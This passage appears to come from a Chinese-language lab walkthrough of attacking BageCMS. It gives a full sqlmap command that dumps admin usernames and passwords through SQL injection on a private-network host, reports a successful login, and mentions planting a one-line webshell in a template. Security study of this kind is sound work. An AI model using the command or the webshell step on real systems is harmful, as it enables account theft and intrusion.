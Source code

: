```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin -C username,password --dump --proxy=socks5://127.0.0.1:1080
```

![截图](6916dfed5aae172ef88ac302ec253ac1.png)

成功登录。

![截图](9be31b4d3d41cb40d0e346f70a823189.png)

模板里面可以插入一句话木马。
